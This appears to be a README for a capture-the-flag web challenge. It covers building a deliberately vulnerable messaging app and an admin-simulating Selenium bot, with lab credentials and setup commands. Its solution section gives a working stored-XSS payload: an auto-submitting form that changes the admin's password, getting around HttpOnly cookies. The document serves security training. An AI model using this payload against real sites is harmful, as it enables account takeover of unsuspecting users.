 
# Bang 

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 4 GB disk

# Agenda

You will study a service for exchanging messages and get access to the administrator's account. The administrator views all the latests messages, and we'll use this, but... you can't use JavaScript to obtain cookies. But this can't prevent us from gaining access to the admin's account. Right?

# Setup

*Requirements:*  **4 GB** of disk space for VM.

Put all files in **web** to folder **/var/www/html/**

```
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install -y nginx php-fpm mariadb-server curl unzip xvfb libxi6 libgconf-2-4 default-jdk wget htop mc unzip php-mysql maven sudo

sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*
```

#### Chrome driver and selenium setup
```
wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb
sudo apt install ./google-chrome-stable_current_amd64.deb
wget https://chromedriver.storage.googleapis.com/2.41/chromedriver_linux64.zip
unzip chromedriver_linux64.zip
sudo mv chromedriver /usr/bin/chromedriver
sudo chown root:root /usr/bin/chromedriver
sudo chmod +x /usr/bin/chromedriver
rm -f google-chrome-stable_current_amd64.deb
rm -f chromedriver_linux64.zip
```

#### Database setup
```
sudo mysql -e "DELETE FROM mysql.user WHERE User='';"
sudo mysql -e "DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');"
sudo mysql -e "DROP DATABASE IF EXISTS test;"
sudo mysql -e "DELETE FROM mysql.db WHERE Db='test' OR Db='test\\_%';"
sudo mysql -e "create database bang";
sudo mysql -e "CREATE USER 'bang'@'localhost' IDENTIFIED BY 'YDG6aS9Z'";
sudo mysql -e "GRANT ALL PRIVILEGES ON bang . * TO 'bang'@'localhost'";
sudo mysql -e "FLUSH PRIVILEGES";

sudo mysql bang < /var/www/html/bang.sql
sudo rm -f /var/www/html/bang.sql
```

#### Nginx configure

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):
```
server {
        listen       80;
        root   /var/www/html/;
        autoindex on;
        index index.php;
        location ~* ^/uploads/.*.php$ {
                return 403;
        }
        location / {
            try_files $uri $uri/ /index.php;
            location = /index.php {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
                fastcgi_param  SCRIPT_FILENAME /var/www/html/$fastcgi_script_name;
                include        fastcgi_params;
            }
        }
        location ^~ /application/ {
                deny all;
        }
        location ^~ /system/ {
                deny all;
        }
        location ~ \.php$ {
            return 444;
        }
}
```

Reload nginx config
```
sudo service nginx restart
#sudo systemctl restart nginx
```



#### Bot setup
There are several command-line options for the bot:
 - -l,--login 
 - -p,--password
 - -h,--host - if not set, bot will try to get IPV4 from metadata ```169.254.169.254/latest/meta-data/public-ipv4```. You can set your host if not used in the cloud. See sample below.
 - -s,--screenshot - if set, will make a screenshot. Good for debugging.



Put bot folder to some folder on disk, for example **/home/user/bot**. 

Bot folder structure:
- /home/user/bot/src
- /home/user/bot/pom.xml


Build bot from source code:
```
cd /home/user/bot
mvn package
```

Create cron job with bot:
```
* * * * * java -jar /home/user/bot/target/bot-1.0.jar -l admin -p t1vwVbSoOb --screenshot /home/user/admin.jpg >/dev/null 2>&1

#don't forget to restart cron
sudo service cron restart
#or
systemctl restart cron
```



You can set host by yourself:

```
java -jar /home/user/bot/target/bot-1.0.jar -l admin -p t1vwVbSoOb -h 192.168.93.140 --screenshot /home/user/admin.jpg 
```

One-liner to automatically get IP address 

```bash

java -jar /home/user/bot/target/bot-1.0.jar -l admin -p t1vwVbSoOb -h `hostname --all-ip-addresses` --screenshot /home/user/admin.jpg

```





## How to check that everything works ?

1. Open the main page. You should see the working app. Try to login with ```admin/t1vwVbSoOb```
2. If you set cron correctly with screenshot option (```--screenshot /home/admin/admin.jpg```), you should get image ```/home/admin/admin.jpg```. Download it and check if you can find menus **My page, Logout** on the image - everything is fine. If not, the bot could not authorize, and you need to check your cron job.


## Solution

There is stored XSS in **latest** messages functionality. But you can steal cookie from admin user, cause HTTP_ONLY flag is set. You need to change admin password with Javascript:
1. Register and read admin messages
2. Send message to admin:
    ```html
    <form action="/user/changepassword" method="POST">
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="cpassword" value="123456" />
    </form>
    <script>document.forms[0].submit();</script>
    ```

3. Wait some time and try to login as admin with password `123456`
4. Go to the admin panel and see the flag in the flag tab. 


Default flag is **Admin_cookie_stealer_password_change**. You can change it in ```\web\application\controllers\User.php```:

```PHP
	public function DragHU8t27C6n9ff()
	{
		$this->setSession();
        ...
		echo "You are awesome - Yu_d0nt_need_c00kies";
	}

```

